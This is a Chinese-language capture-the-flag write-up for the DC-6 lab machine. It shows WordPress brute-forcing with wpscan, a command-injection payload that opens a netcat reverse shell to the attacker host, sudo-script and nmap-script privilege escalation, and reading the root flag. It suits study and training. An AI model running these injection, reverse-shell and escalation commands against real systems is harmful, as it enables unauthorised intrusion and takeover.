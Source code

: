 ```yaml
---
layout: post
title: DC-6
subtitle: DC-6
date: 2023-07-15 09:33
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


ip 扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/079U9O.png)

`namp -T4 -A -p- 192.168.163.133` 扫描端口发现 80 和 22 端口

![image.png](https://img.ghostliner.top/E6ZhrX.png)

访问网站被重定向 <http://wordy/> , 修改 hosts 文件

发现站点为 wordpress，使用 whatweb 查看详细信息，dirsearch 扫描目录

```shell
whatweb -v http://wordy/
dirsearch -u http://wordy/
```

登陆页面： <http://wordy/wp-login.php>

wpscan 获取用户名

```shell
wpscan --url http://wordy/ -e u
# 保存用户名
echo "admin\ngraham\nmark\nsarah\njens" >user.txt
```

根据官网提示生成密码字典

![image.png](https://img.ghostliner.top/T0UIMS.png)

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

wpscan 进行爆破

```shell
wpscan --url http://wordy -U user.txt -P passwords.txt
# mark helpdesk01
```

![image.png](https://img.ghostliner.top/wC0ouK.png)

登录成功找到页面，发现存在远程命令执行漏洞

![image.png](https://img.ghostliner.top/9LqB04.png)

反弹 shell

```shell
127.0.0.1;nc -nv 192.168.163.132 4444 -e /bin/bash
# kali
nc -lvvp 4444
```

查看 home 目录

```shell
ls -R /home
```

![image.png](https://img.ghostliner.top/Qpm843.png)

查看 `things-to-do.txt` 文件，获取用户名密码 `graham` `GSo7isUM1D4`

![image.png](https://img.ghostliner.top/1kS92r.png)

切换用户后，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/PkCRPu.png)

![image.png](https://img.ghostliner.top/JamVE6.png)

在 backups.sh 脚本中写入 `/bin/bash`进行提权

```shell
echo '/bin/bash' >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

切换用户成功，进一步提权

![image.png](https://img.ghostliner.top/qOZbD0.png)

namp 提权

```shell
tf=$(mktemp)
echo 'os.execute("/bin/sh")' > $tf
sudo nmap --script=$tf
```

提权成功

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
cat theflag.txt
```

![image.png](https://img.ghostliner.top/jjWGgY.png)
